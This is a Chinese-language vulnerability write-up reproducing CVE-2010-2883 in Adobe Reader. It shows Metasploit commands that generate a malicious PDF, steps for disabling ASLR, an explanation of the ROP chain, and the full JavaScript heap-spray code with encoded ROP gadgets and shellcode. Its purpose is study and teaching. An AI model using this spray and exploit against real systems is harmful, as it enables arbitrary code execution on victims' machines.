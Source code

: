 &emsp;&emsp;<font size=2>这个已经是很老的漏洞了，但也经常是复现CVE的第一课。很早之前我就尝试过复现但是都不成功，最近灵感一现踩完了很多坑最终复现出来了，也在这里记录一下复现这个漏洞有哪些坑需要避免吧。</font></br>

&emsp;&emsp;<font size=2>Adobe Reader我就不挂链接了，以后还有很多软件，如果都挂在github感觉太占空间，我就放在自己网盘里了，想要的可以评论联系。有了漏洞软件之后我们就需要一个利用样本，在这里我们不用漏洞战争里的配套资料了，我们用msf生成一个最简单的MessageBox的弹窗：</font></br>

```
msf5 > search cve-2010-2883

Matching Modules
================

   #  Name                                            Disclosure Date  Rank   Check  Description
   -  ----                                            ---------------  ----   -----  -----------
   0  exploit/windows/browser/adobe_cooltype_sing     2010-09-07       great  No     Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow
   1  exploit/windows/fileformat/adobe_cooltype_sing  2010-09-07       great  No     Adobe CoolType SING Table "uniqueName" Stack Buffer Overflow


msf5 > use 1
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > show payloads
   30   windows/loadlibrary                                                  normal  No     Windows LoadLibrary Path
   31   windows/messagebox                                                   normal  No     Windows MessageBox
   32   windows/meterpreter/bind_hidden_ipknock_tcp                          normal  No     Windows Meterpreter (Reflective Injection), Hidden Bind Ipknock TCP Stager
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > use 31
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > exploit

[*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /Users/fanda/.msf4/local/msf.pdf
msf5 exploit(windows/fileformat/adobe_cooltype_sing) >
```

&emsp;&emsp;<font size=2>怎么用就不说了。就说这里利用成功必须要避免的一个坑吧：**ASLR**。</font></br>

&emsp;&emsp;<font size=2>win7是自带ASLR保护的，所以必须得关了才能成功利用，否则无法正常ROP。那么怎么关呢？用一个微软官方出的体验增强工具（Enhanced Mitigation Experience ToolKit）。上次去微软官方怎么找也找不到，还好我备份了，是win7用的，同样想要的可以留言。在下面ASLR哪里改为disabled然后重启电脑就行了：</font></br>

![关闭ASLR](https://raw.githubusercontent.com/fangdada/how2CVE/master/CVE-2010-2883/screenshot/关闭ASLR.png)

&emsp;&emsp;<font size=2>完了之后双击应该直接运行POC应该就会看到利用成功的MessageBox弹窗：</font></br>

![弹窗](https://raw.githubusercontent.com/fangdada/how2CVE/master/CVE-2010-2883/screenshot/弹窗.png)

&emsp;&emsp;<font size=2>坑讲完了，接下来我们来看看技术上是怎么实现的，首先我们已经知道了这是一个CoolType.dll里的解析TTF时中的strcat函数未检查长度造成的栈溢出漏洞，但是这又不是常规的溢出至return地址的利用，因为程序可能开启了GS（Linux上叫canary）保护。仔细跟踪CoolType.dll的反汇编我们可以发现在控制流进行：</font></br>

```
strcat(&v24, (const char *)(v18 + 16));
......
call sub_8016B96();
->
  call sub_801BAD9();
  ->
    call dword ptr ds:[eax];
    ->
      call dword ptr ds:[eax];
      -> 在这里eax为strcat目标地址的偏移0x1f8处
```

&emsp;&emsp;<font size=2>调用堆栈如下：</font></br>

![调用堆栈](https://raw.githubusercontent.com/fangdada/how2CVE/master/CVE-2010-2883/screenshot/调用堆栈.png)

&emsp;&emsp;<font size=2>从这里开始就是ROP的部分了，基本都是取自icucnv36.dll的指令。第一条ROP指令做了一个栈平衡，将ESP指向了shellcode的前部，第二条ROP指令就是`pop esp;ret;`将栈转移到了0C0C0C0C。等等，这个0C0C0C0C听上去怎么这么像非法地址？这就要引出pdf里的内嵌JavaScript了。</font></br>

&emsp;&emsp;<font size=2>PDF是内置了JavaScript解释器的，用来丰富PDF的功能，网页访问，pdf内弹窗等都是可以用JavaScript来实现。但是JavaScript是受到了限制的，不能为所欲为。但别有用心的大佬们想到了利用JavaScript堆喷射的办法，配合adobe阅读器本身的漏洞进而实现执行任意代码。比如POC中的JavaScript堆喷射实现：</font></br>

```javascript
var shellcode = unescape( '%u4141%u4141%u63a5%u4a80%u0000%u4a8a%u2196%u4a80%u1f90%u4a80%u903c%u4a84%ub692%u4a80%u1064%u4a80%u22c8%u4a85%u0000%u1000%u0000%u0000%u0000%u0000%u0002%u0000%u0102%u0000%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9038%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0000%u0000%u0040%u0000%u0000%u0000%u0000%u0001%u0000%u0000%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0008%u0000%ua8a6%u4a80%u1f90%u4a80%u9030%u4a84%ub692%u4a80%u1064%u4a80%uffff%uffff%u0022%u0000%u0000%u0000%u0000%u0000%u0000%u0001%u63a5%u4a80%u0004%u4a8a%u2196%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0030%u0000%ua8a6%u4a80%u1f90%u4a80%u0004%u4a8a%ua7d8%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u0020%u0000%ua8a6%u4a80%u63a5%u4a80%u1064%u4a80%uaedc%u4a80%u1f90%u4a80%u0034%u0000%ud585%u4a80%u63a5%u4a80%u1064%u4a80%u2db2%u4a84%u2ab1%u4a80%u000a%u0000%ua8a6%u4a80%u1f90%u4a80%u9170%u4a84%ub692%u4a80%uffff%uffff%uffff%uffff%uffff%uffff%u1000%u0000%u2dbb%u64ae%udb5e%ud9d7%u2474%u5af4%uc92b%u45b1%uc283%u3104%u0e5a%u7703%u86a0%u5eab%udd57%u148d%u168c%u061c%ua17e%u6f6e%uc51b%u5fe0%uaf6f%u140e%u4c19%u6c84%ue7ee%u50e4%uc165%udf20%u5b61%u86a2%u7290%ud9bb%ufff3%u3d28%u74d0%u01f5%udf93%u01de%u35a2%ubb95%u42bc%u1bf0%ubfbc%u6fe6%ub4f7%u04dd%u2506%ue52c%u7938%ub5b3%ub9bf%uc238%uf67e%ucdcc%ue247%uf63b%ud13b%u7deb%u9225%u59b6%u4ea4%u2a20%udbaa%u7626%udaaf%u0dd3%u57cb%uf922%u235d%ue501%u6f3c%u1dfb%ubb96%uf875%u8161%u8cee%u083c%uc203%u8b28%u1d24%u3d57%ue59f%u4013%u07f8%u3a10%ue3e4%uac85%u149b%ud2d6%uaf2d%u4521%u4342%ud412%ua8f2%uf860%ua666%u77f1%u4402%uacca%uf444%u590e%ue2dc%ua219%uee8b%u9e2c%u5564%ubd86%u15c8%udd50%u37f6%u81b7%u4809%u56b8%uce99%u871f%u4f0d%ua2c7%ue78f%u484a%u8463%u4965%u360b%u67a2%u2585%u2fc2%u89b5%ub833%u9af8%u1975%u6e6b%u3415%ue64b%uea86%u90ab%ubb30%u30ce%u0aad%u40d8%u4961%ud9ca%ua09b%u8b38%u9208%ud4ee%u257f%u7acf%u137f%u41c7' );

var block = unescape( "%" + "u" + "0" + "c" + "0" + "c" + "%u" + "0" + "c" + "0" + "c" );

while (block.length + 20 + 8 < 65536) 
    block+=block;
SP = block.substring(0, (0x0c0c-0x24)/2);
SP += shellcode;
SP += block;
slackspace = SP.substring(0, 65536/2);

while(slackspace.length < 0x80000) 
    slackspace += slackspace;

bigblock = slackspace.substring(0, 0x80000 - (0x1020-0x08) / 2);
var memory = new Array();

for (count=0;count<0x1f0;count++)
    memory[count]=bigblock+"s";
```

&emsp;&emsp;<font size=2>在分配大量内存时，windows有极大的可能在0C000000处给予分配地址。这样一来堆块承载着payload就顺理成章的被放置在了这个地址，在访问0C0C0C0C的时候就是合法的了。</font></br>

&emsp;&emsp;<font size=2>完了之后0C0C0C0C上的跳板指令的主场秀了，一番操作。调用了ZwMapViewOfSection等函数映射了一块虚拟地址（可读可写可执行），然后调用了memcpy把shellcode放了进入，这个shellcode的来源就是JavaScript里的那个消耗了一些跳板指令的shellcode变量。随后调入了这段映射地址。这个时候就是可以执行任意代码了，不会受到ROP的约束了，需要什么用LoadLibrary和GetProcAddress自己取就完事了，这部分没啥好说的，放一张执行最后MessageBox时的图片：</font></br>

![利用成功](https://raw.githubusercontent.com/fangdada/how2CVE/master/CVE-2010-2883/screenshot/利用成功.png)

&emsp;&emsp;<font size=2>以上就是这个CVE复现的过程了，不扫盲，只讲坑和利用逻辑。</font></br>

---------

### 附录

&emsp;&emsp;<font size=2>相关结构体：</font></br>

![相关结构体](https://raw.githubusercontent.com/fangdada/how2CVE/master/CVE-2010-2883/screenshot/相关结构体.png)